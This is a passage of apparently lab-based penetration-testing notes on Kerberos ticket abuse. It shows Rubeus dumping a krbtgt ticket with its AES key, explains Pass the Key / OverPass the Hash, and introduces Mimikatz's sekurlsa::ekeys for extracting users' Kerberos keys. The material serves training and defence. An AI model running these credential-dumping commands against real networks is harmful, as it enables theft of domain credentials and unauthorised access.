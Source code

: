 {% code fullWidth="true" %}
```powershell
c:\tools> Rubeus.exe dump /nowrap
-----

    ServiceName           :  krbtgt/inlanefreight.htb
    ServiceRealm          :  inlanefreight.htb
    UserName              :  plaintext
    UserRealm             :  inlanefreight.htb
    StartTime             :  7/12/2022 9:42:15 AM
    EndTime               :  7/12/2022 7:42:15 PM
    RenewTill             :  7/19/2022 9:42:15 AM
    Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType               :  aes256_cts_hmac_sha1
    Base64(key)           :  2NN3wdC4FfpQunUUgK+MZO8f20xtXF0dbmIagWP0Uu0=
    Base64EncodedTicket   :

doIE9jCCBPKgAwIBBaEDAgEWooIECTCCBAVhggQBMIID/aADAgEFoQkbB0hUQi5D.....
<SNIP>
```
{% endcode %}

Note: To collect all tickets we need to execute Mimikatz or Rubeus as an administrator.

***

### <mark style="color:blue;">Pass the Key or OverPass the Hash</mark>

The traditional `Pass the Hash (PtH)` technique involves reusing an NTLM password hash that doesn't touch Kerberos. The `Pass the Key` or `OverPass the Hash` approach converts a hash/key (rc4\_hmac, aes256\_cts\_hmac\_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`. This technique was developed by Benjamin Delpy and Skip Duckwall in their presentation [Abusing Microsoft Kerberos - Sorry you guys don't get it](https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18). Also [Will Schroeder](https://twitter.com/harmj0y) adapted their project to create the [Rubeus](https://github.com/GhostPack/Rubeus) tool.

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`. This module will enumerate all key types present for the Kerberos package.

<pre class="language-powershell" data-full-width="true"><code class="lang-powershell"><strong>c:\tools> mimikatz.exe
</strong>
  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
